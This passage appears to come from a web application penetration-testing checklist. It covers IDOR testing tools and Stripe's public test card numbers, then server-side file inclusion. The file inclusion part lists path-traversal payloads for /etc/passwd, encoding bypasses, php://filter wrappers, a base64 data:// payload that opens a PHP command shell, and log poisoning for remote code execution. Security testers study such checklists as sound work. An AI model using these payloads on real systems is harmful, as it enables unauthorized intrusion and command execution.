 ## 5 - User partitioning / IDOR / Business logic vulnerabilities
**IDOR/User partitioning**
- `PwnFox` : Is it possible to replay requests with an unprivileged user (IDOR, etc.) ? privesc ? lateral move ?
- `AuthMatrix`      
  
**Payment functionnality**    
From https://stripe.com/docs/testing#cards : "Use any of the following test card numbers, a valid expiration date in the future, and any random CVC number, to create a successful payment. Each test card's billing country is set to U.S. " e.g :  
    
<ins>Test card numbers and tokens</ins>   
| NUMBER           | BRAND        | TOKEN          | COUNTRY      |
|------------------|--------------|----------------|--------------|
| 4242424242424242 | Visa         | tok_visa       |              |
| 4000056655665556 | Visa (debit) | tok_visa_debit |              |
| 5555555555554444 | Mastercard   | tok_mastercard |              |
| 4000000400000008 | Visa         | tok_at         | Austria (AT) |
| 4000000560000004 | Visa         | tok_be         | Belgium (BE) |
| 4000002080000001 | Visa         | tok_dk         | Denmark (DK) |
| 4000002460000001 | Visa         | tok_fi         | Finland (FI) |
| 4000002500000003 | Visa         | tok_fr         | France (FR)  |
    
      
## 6 - Injections & inputs sanitizing
### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )  

**File inclusion**  
- Basic payload : `?f=../../etc/passwd`  
- Check file iclusion filters such as :   
`?inc=php://filter/read=convert.base64-encode/resource=`  
`http://example.com/index.php?page=../../../etc/passwd%00` (Null byte)  
`http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd` (Double encoding)  
- Check file inclusion wrappers such as :  
Wrapper php://filter/ : `http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php`  
Wrapper data:// : `http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=`  
- LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
- Try to pass arrays as arguments for request parameters, some PHP functions may give verbose errors (ex strcmp(), include(), etc.)
Escaping : CRLF `%0A`, NULL BYTE`%00`, Php truncation `a/../admin.html/./.[x4096]././././`  
 